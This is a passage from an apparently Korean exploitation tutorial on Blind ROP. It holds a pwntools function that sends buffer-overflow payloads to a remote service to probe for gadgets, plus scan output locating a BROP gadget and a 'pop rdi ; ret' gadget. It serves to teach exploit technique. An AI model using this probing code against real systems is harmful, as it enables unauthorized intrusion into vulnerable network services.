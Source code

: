 ```python
	try:
		payload = ''
		payload += "A"*size
		payload += p64(addr)
		payload += p64(0x41)*6
	
		r = remote(ip,port,level='error')
		r.recvline()
		r.send(payload)
		recv = r.recv(timeout=0.2)
		r.close()
		return False

	except Exception as e:
		r.close()
		return True
```

다음과 같이 BROP Gadget을 찾을 수 있고 "pop rdi ; ret" Gadget도 찾을 수 있다.

```
[+] Searching for BROP gadget : Done
[*] Progressed to 0x100
[*] Progressed to 0x200
[*] Progressed to 0x300
[*] Progressed to 0x400
[*] Progressed to 0x500
[*] Maybe BROP Gagget : 0x4005c0
[*] Maybe BROP Gagget : 0x4005c2
[*] Maybe BROP Gagget : 0x4005c3
[*] Maybe BROP Gagget : 0x4005c5
[*] Maybe BROP Gagget : 0x4005c6
[*] Maybe BROP Gagget : 0x4005c7
[*] Maybe BROP Gagget : 0x4005c9
[*] Maybe BROP Gagget : 0x4005cd
[*] Maybe BROP Gagget : 0x4005ce
[*] Maybe BROP Gagget : 0x4005cf
[*] Maybe BROP Gagget : 0x4005d0
[*] Maybe BROP Gagget : 0x4005d6
[*] Maybe BROP Gagget : 0x4005d7
[*] Maybe BROP Gagget : 0x4005dd
[*] Maybe BROP Gagget : 0x4005de
[*] Progressed to 0x600
[*] Maybe BROP Gagget : 0x4006b6
[*] Maybe BROP Gagget : 0x4006b7
[*] Maybe BROP Gagget : 0x4006b8
[*] Maybe BROP Gagget : 0x4006ba
[*] Maybe BROP Gagget : 0x4006ce
[*] Maybe BROP Gagget : 0x4006e2
[*] Maybe BROP Gagget : 0x4006f6
[*] Progressed to 0x700
[*] Maybe BROP Gagget : 0x4007ba
[*] Finded BROP Gagget : 0x4007ba
[+] BROP Gadget : 0x4007ba
[+] RDI Gadget : 0x4007c3
```
